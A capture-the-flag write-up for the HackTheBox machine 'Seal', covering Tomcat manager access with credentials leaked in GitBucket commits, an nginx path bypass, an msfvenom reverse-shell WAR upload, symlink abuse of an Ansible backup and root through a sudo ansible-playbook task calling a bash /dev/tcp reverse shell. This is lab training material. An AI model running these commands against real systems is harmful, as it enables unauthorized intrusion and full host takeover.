

# [Seal](https://app.hackthebox.com/machines/seal)

```bash
nmap -p- --min-rate 10000 10.10.10.250 -Pn
```


After detection of open ports (22,443,8080), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,443,8080 10.10.10.250
```


While I browse the application, it redirects into 'seal.htb' , that's why I add this into '/etc/hosts' file.


Let's access application on port (8080), that's Gitbucket.


I create an account and try to enumerate for finding sensitive credentials.

Dr4ks:Dr4ks


I can see `seal_market`'s repository is here.


I find sensitive credentials from latest commits.


tomcat:42MrHBf*z8{Z%


While I want to access Tomcat manager via browsing `/manager/html`, nginx blocks this action, to bypass this, I add `;`(semicolon).


After bypass and successful authentication, I see Tomcat manager section.
`url=> /manager;/html`


To get reverse shelll, I need to upload malicious `.war` file, let's create this by using `msfvenom` command.

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.6 lport=1337 -f war -o dr4ks.war
```


There are a lot of erros comes about uploading, we need to add upload processing like below.
`URL=>  /manager/.;/html` should be.


While clicking to my `dr4ks` endpoint, I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


While enumeration, I found two backup files (zipped) on location '/opt/backups/archives'.

Let's get one of them.

1.First, open http server via python.
```bash
python3 -m http.server --bind 10.10.10.250 3169
```


2.Then grab files by visiting URL.


These backup files are generated by `Ansible`, so that they have information from generated (are the same stuff)


I also know that one writeable folder `./uploads`, let's create link from luis folder via `ln` command.

```bash
ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
```


After this, playbooks works also our link worked.


Let's grab this big data.

I extract all data from here like below.
```bash
gunzip -d .gz file
tar -xvf extracted file
```

Here's private key (id_rsa) file, I change privileges of this and connect into machine.




```bash
chmod 600 id_rsa
ssh -i id_rsa luis@10.10.10.250
```

user.txt


While I doing `sudo -l` command for privilege escalation, it says playbook is privileged action for luis user.


I will exploit by creating this playbook .yaml file.

```yaml
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.10.16.6/2024 0>&1'
```

Then run this playbook file.

```bash
sudo ansible-playbook dr4ks.yml 
```


I got reverse shell from port (2024).

root.txt


